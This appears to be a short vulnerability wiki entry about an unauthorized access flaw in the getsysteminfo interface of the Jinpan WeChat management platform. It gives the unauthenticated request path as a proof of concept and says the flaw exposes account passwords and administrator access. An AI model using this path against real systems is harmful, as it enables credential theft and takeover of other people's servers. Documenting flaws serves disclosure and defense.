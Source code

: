 # Jinpan WeChat management platform getsysteminfo Unauthorized access vulnerability

## Vulnerability Description

Jinpan WeChat management platform There is an unauthorized access vulnerability in the getsysteminfo interface. The attacker can obtain account password information through the vulnerability and obtain background administrator permissions.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Golden disk WeChat management platform</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1683077584403-fa2e6fa6-1f01-4152-99bc-215fb75fe462.png)

Verify POC

```python
/admin/weichatcfg/getsysteminfo
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1683077636041-b3cc7412-c71c-49bf-ad6a-cd0a386f6673.png)